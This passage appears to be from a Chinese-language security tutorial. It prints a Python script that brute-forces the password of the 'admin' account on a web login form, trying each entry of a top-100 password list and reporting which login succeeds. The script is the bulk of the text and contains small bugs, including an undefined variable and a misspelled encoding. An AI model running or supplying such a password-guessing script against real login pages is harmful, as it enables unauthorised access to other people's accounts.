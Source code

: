 -----

有了这些信息，就可以写脚本了，<br>

脚本其实跟前面的一些类似，无非就是判断不同 <br>

直接来看代码 <br>

假设我们知道用户名为 **admin** ，<br>

那么我们可以直接爆破密码，<br>

使用 **format()** 函数把密码传进去 <br>

```python
# -*- coding: utf-8 -*-

import requests
import time
import re

def login(pwd):

	try:
		headers = {

			"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0",
			"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
			"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2"

		}

		url = "http://www.vd.com/user/logCheck.php"

		login = {"user":"admin","pass":"{}".format(pwd),"submit":"login"}

		r = requests.post(url,headers=headers,data=login)

		r.encoding = 'urf-8'

		if '用户名或密码错误' in r.text:

			print("用户名: " +user+ " 密码: " + pwd +" -----> 登录失败")

		else:

			print("用户名: " +user+ " 密码: " + pwd + " -----> 登录成功")

	except:
		print("用户名: " +user+ " 密码: " + pwd + " -----> 无法访问")

password = open('D:/top100.txt','r')

for pwd in password.readlines():

	pwd = pwd.strip('\n')
	login(pwd)


username.close()
```
